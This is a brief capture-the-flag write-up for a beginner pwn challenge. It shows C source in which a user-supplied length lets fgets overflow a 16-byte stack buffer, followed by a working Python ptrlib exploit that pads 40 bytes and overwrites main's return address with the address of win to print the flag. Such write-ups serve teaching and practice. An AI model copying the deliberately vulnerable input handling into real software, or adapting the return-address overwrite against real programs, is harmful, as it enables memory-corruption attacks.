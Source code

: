```c
#include <fcntl.h>
#include <unistd.h>
#include <err.h>

#define BUFSIZE 0x10

void win() {
    char buf[0x100];
    int fd = open("flag.txt", O_RDONLY);
    if (fd == -1)
        err(1, "Flag file not found...\n");
    write(1, buf, read(fd, buf, sizeof(buf)));
    close(fd);
}

int main() {
    int len = 0;
    char buf[BUFSIZE] = {0};
    puts("How long is your name?");
    scanf("%d", &len);
    char c = getc(stdin);
    if (c != '\n')
        ungetc(c, stdin);
    puts("What's your name?");
    fgets(buf, len, stdin);
    printf("Hello %s", buf);
}

__attribute__((constructor))
void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    alarm(60);
}
```
`main` function has buffer overflow vulnerability obviously.
I can set length of the buffer which will save my input. 
Therefore, I just overwrite a return address of the `main` to `win`
```python
#!/usr/bin/env python
import ptrlib as p


def unwrap(x):
    if x is None:
        exit(1)
    else:
        return x


elf = p.ELF("./chall")

offset = 40
payload = b"A" * offset
payload += p.p64(unwrap(elf.symbol("win")))

io = p.Process(elf.filepath)
io.sendline(str(len(payload)))
io.sendline(payload)

flag_content = io.recvregex(b"flag\{(.*?)\}")[0].decode()
flag = "flag{" + flag_content + "}"
p.logger.info(f"flag: {flag}")
```